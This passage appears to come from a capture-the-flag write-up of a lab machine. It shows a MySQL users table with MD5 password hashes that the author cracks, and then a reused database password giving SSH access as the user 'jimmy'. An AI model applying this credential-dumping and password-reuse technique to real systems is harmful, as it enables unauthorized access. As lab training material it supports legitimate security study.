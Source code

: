 I tried logging into MySQL with the credentials...

```none
mysql -u ona_sys -p -D ona_default
```

But the user passwords I extracted from the database didn't seem to be of use.

```none
mysql> select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2021-08-04 03:41:17 | 2021-08-04 03:41:17 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
```

The password for `guest` was `test` and the password for `admin` was `admin`. But maybe the database password had been reused... And they were! The `n1nj4W4rri0R!` password worked for the user `jimmy`.

```none
└─$ ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug  4 03:49:34 UTC 2021

  System load:  0.0               Processes:             122
  Usage of /:   49.6% of 7.81GB   Users logged in:       1
  Memory usage: 30%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Aug  4 02:45:36 2021 from 10.10.14.4
```
